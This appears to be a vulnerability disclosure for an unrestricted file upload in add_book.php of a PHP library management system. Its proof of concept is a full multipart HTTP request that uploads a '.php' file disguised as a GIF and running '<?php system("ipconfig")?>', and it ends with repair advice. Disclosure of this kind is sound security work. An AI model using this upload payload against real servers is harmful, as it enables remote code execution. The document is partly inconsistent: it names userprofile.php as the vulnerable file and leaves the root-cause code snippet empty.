


# Advanced Library Management System V1.0 add_book.php Unrestricted Upload

# NAME OF AFFECTED PRODUCT(S)

- Advanced Library Management System

## Vendor Homepage

- [Advanced Library Management System Project in PHP with Barcode | Projectworlds](https://projectworlds.com/advanced-library-management-system-project-in-php-with-barcode/)

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- GYSakura

## Vulnerable File

- userprofile.php

## VERSION(S)

- V1.0

## Software Link

- [Advanced Library Management System Project in PHP with Barcode | Projectworlds](https://projectworlds.com/advanced-library-management-system-project-in-php-with-barcode/)

# PROBLEM TYPE

## Vulnerability Type

- Unrestricted Upload

## Root Cause

- In of the add_book.php file, the input obtained through $_FILES is directly used to determine the storage location of the file without verification or cleaning. The specific code snippet is as follows:

  

## Impact

- Attackers can exploit this vulnerability for unrestricted uploads, which may lead to file overwrite, file injection, directory traversal attacks, and denial of service attacks. Remote attacks may also result in RCE

# DESCRIPTION

- discovered that the file upload operation was triggered of the 'add_book.php' file and the uploaded file was received using the '$_FILES' variable. Due to the lack of appropriate input validation and cleaning, remote attackers can pass malicious payloads through this file upload feature, resulting in unrestricted file uploads, which may further lead to remote code execution (RCE).

# Vulerability details and POC

## Payload:

```
POST http://10.151.161.83:8822/add_book.php HTTP/1.1
Host: 10.151.161.83:8822
Content-Length: 44365
Cache-Control: max-age=0
Origin: http://10.151.161.83:8822
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1M3UYeWVRWWqgci6
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.151.161.83:8822/add_book.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=okjv80qgssrm1kl76l9ft762f6
Connection: keep-alive

------WebKitFormBoundary1M3UYeWVRWWqgci6
Content-Disposition: form-data; name="book_title"

123
------WebKitFormBoundary1M3UYeWVRWWqgci6
Content-Disposition: form-data; name="author"

123
------WebKitFormBoundary1M3UYeWVRWWqgci6
Content-Disposition: form-data; name="author_2"


------WebKitFormBoundary1M3UYeWVRWWqgci6
Content-Disposition: form-data; name="author_3"


------WebKitFormBoundary1M3UYeWVRWWqgci6
Content-Disposition: form-data; name="author_4"


------WebKitFormBoundary1M3UYeWVRWWqgci6
Content-Disposition: form-data; name="author_5"


------WebKitFormBoundary1M3UYeWVRWWqgci6
Content-Disposition: form-data; name="book_pub"

123
------WebKitFormBoundary1M3UYeWVRWWqgci6
Content-Disposition: form-data; name="publisher_name"


------WebKitFormBoundary1M3UYeWVRWWqgci6
Content-Disposition: form-data; name="isbn"

123
------WebKitFormBoundary1M3UYeWVRWWqgci6
Content-Disposition: form-data; name="copyright_year"


------WebKitFormBoundary1M3UYeWVRWWqgci6
Content-Disposition: form-data; name="book_copies"

123
------WebKitFormBoundary1M3UYeWVRWWqgci6
Content-Disposition: form-data; name="status"

New
------WebKitFormBoundary1M3UYeWVRWWqgci6
Content-Disposition: form-data; name="category"

EC
------WebKitFormBoundary1M3UYeWVRWWqgci6
Content-Disposition: form-data; name="image"; filename="[000000000.php"
Content-Type: image/jpeg

GIF89a
<?php system("ipconfig")?>
------WebKitFormBoundary1M3UYeWVRWWqgci6
Content-Disposition: form-data; name="submit"


------WebKitFormBoundary1M3UYeWVRWWqgci6--
```



# I successfully executed the PHP script on the burpsuite



# Suggested repair

1. Strictly validate file types using a whitelist of allowed extensions and verify MIME types.
2. Verify file content by checking file signatures to confirm actual types and reject files with malicious scripts.
3. Sanitize filenames by generating random unique names and stripping special characters to prevent path traversal.
4. Restrict file sizes by setting server-side upload limits via configuration.
5. Store files securely, preferably outside the web root; if web-accessible, restrict script execution in the upload directory.